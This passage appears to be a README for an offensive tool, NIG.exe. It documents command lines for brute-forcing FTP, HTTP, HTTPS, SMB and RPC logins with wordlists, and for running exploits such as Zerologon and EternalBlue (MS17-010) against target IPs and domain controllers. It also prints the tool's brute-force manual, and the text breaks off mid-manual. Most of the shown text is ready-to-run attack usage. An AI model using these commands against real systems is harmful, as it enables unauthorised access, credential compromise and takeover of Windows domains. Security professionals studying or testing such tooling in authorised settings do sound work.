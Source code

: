 **Brute Force Protocol (bf)**: Perform a brute force attack on various protocols such as FTP, HTTP, HTTPS, SMB, or RPC.
   - Brute force [protocol] with a specific username and password:
     ```
     NIG.exe bf [protocol] 192.168.1.1 -u username -p password
     ```

   - Brute force [protocol] with a username list and password list:
     ```
     NIG.exe bf [protocol] 192.168.1.1 -U usernameFile.lst -P passwordFile.lst
     ```
   - Print feature manual:
     ```
     > NIG.exe bf
     NIG.exe bf PROTOCOL HOSTNAME/TARGET_IP[:PORT] [-u username/-U usernameFile.lst] [-p password/-P passwordFile.lst] [-d domain] [--continue-success]

     PROTOCOL:
             ftp
             http
             https
             smb
             rpc

     HOSTNAME:
             This is required only for RPC brute force !

     TARGET_IP:
             Target IP Address and port (if port not set the default port will be used).
                     e.g. '192.168.1.1' or '192.168.1.1:80'

     Optional parameter:
             -u username             The username of the targeted account
             -p password             The password of the targeted account
             -d domain               The domain name of the targeted account
             -U usernameFile.lst     The word list of the targeted account
             -P passwordFile.lst     The word list of the targeted account
             --continue-success      Continues authentication attempts even after successes

     Note:
     If the username and password are not set the tool will use is internal wordlist.
     ```

**Exploit**: Exploit vulnerabilities, such as Zerologon, MS17-010 (EternalBlue), Double Pulsar, or PrintNightmare, on target servers.
   - Exploit Zerologon vulnerability on a domain controller:
     ```
     NIG.exe exploit zerologon -d dc1.domain.local -e
     ```

   - Exploit MS17-010 (EternalBlue) vulnerability on a target IP address:
     ```
     NIG.exe exploit ms17 192.168.1.1
     ```
   - Print feature manual
     ```
     > NIG.exe exploit
     NIG.exe exploit EXPLOIT_NAME
